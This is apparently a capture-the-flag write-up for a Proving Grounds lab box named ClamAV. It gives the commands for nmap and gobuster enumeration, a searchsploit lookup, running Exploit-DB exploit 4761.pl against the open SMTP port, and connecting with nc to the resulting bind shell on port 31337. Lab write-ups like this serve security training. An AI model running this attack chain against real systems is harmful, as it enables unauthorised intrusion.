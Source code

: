 
---
layout: default
title: x001-ClamAV
nav_order: 2
has_children: false
parent: ProvingGrounds
grand_parent: Writeups
---

## x001-ClamAV
### Enumeration 

####  NMAP
```bash
nmap -A -T4 192.168.148.42 -p-
```

We have the following list of open port : 
- 22
- 25
- 80
- 139
- 199
- 445
- 60000

![](attachments/Pasted%20image%2020220219175320.png)

We can run a vuln script on those ports :
```bash
nmap -sV --script vuln 192.168.148.42 -p22,25,80,139,199,445,60000
```

The list of vulnerabilities doesn't provide anything useful to exploit the box

#### Website 
Accessing the website, we have the following message : 
```
01101001 01100110 01111001 01101111 01110101 01100100 01101111 01101110 01110100 01110000 01110111 01101110 01101101 01100101 01110101 01110010 01100001 01101110 00110000 0011 0000 01100010
```

Resulting in : `ifyoudontpwnmeuran00b`

##### Gobuster 

Using gobuster to detect folder on the webserver : 
```bash
gobuster dir -u http://192.168.148.42/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```

It indicates a folder `/doc` but it's protected (403 error) and the tool 4-zero-3 bypass could reach the page. 

#### Smb 
Searching for the information inside the share using enum4linux doesn't give us more information. 

#### Other
After searching the name of the box in google, I have find out that it correspond to a software.

Looking for information on this software inside the exploitdb provide me the following output  : 
```bash
searchsploit clamav 
```

![](attachments/Pasted%20image%2020220219185703.png)

The latest exploit is to use an open SMTP server (it's our case, the port 25 is open on our box) 

So if we copy the exploit and run it : 
```bash
cp /usr/share/exploitdb/exploits/multiple/remote/4761.pl ./
perl 4761.pl 192.168.148.42
```


If we check the detail of the exploit, it opens the port 31337 for a remote shell access, we could use nmap to verify if the port is open or not : 

```bash
nmap -p 31337 192.168.148.42
---
PORT      STATE SERVICE
31337/tcp open  Elite
```

Using nc we finally receive the access to the machine : 
```bash
nc  192.168.148.42 31337 
```

![](attachments/Pasted%20image%2020220219190144.png)

